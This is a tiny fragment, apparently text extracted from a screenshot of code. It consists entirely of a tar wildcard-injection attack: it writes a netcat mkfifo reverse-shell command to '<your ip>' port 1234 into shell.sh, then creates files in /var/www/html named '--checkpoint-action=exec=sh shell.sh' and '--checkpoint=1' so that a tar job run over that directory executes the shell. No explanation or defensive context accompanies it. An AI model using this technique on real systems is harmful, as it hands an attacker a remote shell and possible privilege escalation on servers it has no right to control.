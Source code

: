 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip>
1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
  
  
  
